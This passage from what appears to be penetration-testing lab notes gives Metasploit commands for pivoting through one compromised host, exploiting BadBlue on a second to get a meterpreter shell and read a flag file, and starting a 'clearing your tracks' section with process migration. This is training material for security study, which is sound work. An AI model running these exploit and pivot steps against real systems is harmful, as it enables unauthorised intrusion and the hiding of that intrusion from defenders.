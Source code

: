 ```shell
# We have discovered port 80 on the pivot machine. Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap. 
sessions -i 1
portfwd add -l 1234 -p 80 -r <target_IP2>
portfwd list

# Open a new terminal tab
db_nmap -sV -sS -p 1234 localhost

# Now we can now actually exploit victim machine 2 from within msfconsole. 
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS <target_IP2>
exploit

# We have successfully exploited the target vulnerable application (badblue) and received a meterpreter shell.
shell
cd /
dir
type flag.txt
```

**So just to summarize:**
- Gained access to **Victim Machine 1**.
- Added a route to its internal subnet to reach **Victim Machine 2**.
- Scanned and discovered **open ports** on Victim 2.
- Forwarded remote ports from Victim 2 to a **local port** on Kali for analysis.
- Used **Nmap** to identify service versions.
- Launched an exploit to gain access to **Victim Machine 2**.

<br>

## 10. Clearing Your Tracks

### 10.1. Clearing Your Tracks On Windows

Clearing tracks after exploiting a system is a crucial step for attackers who want to avoid detection and maintain access. Metasploit, a popular framework for developing and executing exploit code against a remote target machine, also includes techniques that can be used to cover tracks after an exploit.

**Gain access to the system**

```shell
ping -c 1 <target_IP>
nmap -sV <target-ip>
# The target system has a vulnerable version of BadBlue running on port 80 that can be exploited through the use of a Metasploit module.
service postgresql start && msfconsole
search badblue
use exploit/windows/http/badblue_passthru
show options
set RHOSTS <target_IP>
exploit

sysinfo
getuid

pgrep explorer
migrate <process_ID>

sysinfo
```
